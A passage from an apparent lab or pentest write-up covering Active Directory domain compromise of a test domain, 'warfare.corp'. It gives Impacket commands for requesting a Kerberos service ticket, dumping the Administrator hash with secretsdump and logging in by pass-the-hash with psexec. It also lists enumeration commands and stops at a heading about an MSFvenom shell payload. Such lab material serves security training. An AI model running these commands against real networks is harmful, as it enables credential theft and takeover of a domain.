 <details><summary>Mimikatz Ticket craft</summary></details>

### Get Service Ticket with .ccache file

Now, using impacket-getST we can request Service Ticket using ccache file.

{% code overflow="wrap" %}
```bash
impacket-getST -spn 'CIFS/dc01.warfare.corp' -k -no-pass child.warfare.corp/corpmngr -debug
```
{% endcode %}

Now set the new Ticket just created to our env variable

```bash
export KRB5CCNAME=corpmngr@CIFS_dc01.warfare.corp@WARFARE.CORP.ccache
```





## Parent Domain Controller Compromise

We got the CIFS ticket of the Domain Controller as “**corpmngr**”, let’s extract
&#x20;the **Administrator password** using `impacket-secretsdump` tool.

{% code overflow="wrap" %}
```bash
impacket-secretsdump -k -no-pass dc01.warfare.corp -just-dc-user 'warfare\Administrator' -debug
```
{% endcode %}

If it works, we can use the Administrator hash to access through SMB using `impacket-psexec`&#x20;

{% code overflow="wrap" %}
```bash
impacket-psexec -debug 'warfare/Administrator@dc01.warfare.corp' -hashes aad3b435b51404eeaad3b435b51404ee:a2f7b77b62cd97161e18be2ffcfdfd60
```
{% endcode %}

Now we have comprimise the Entire Domain. ;)



## Enumeration Windows Machine

### Information target

```powershell
net user /dom

net group /dom
```



### Create MSFvenom payload to stable shell
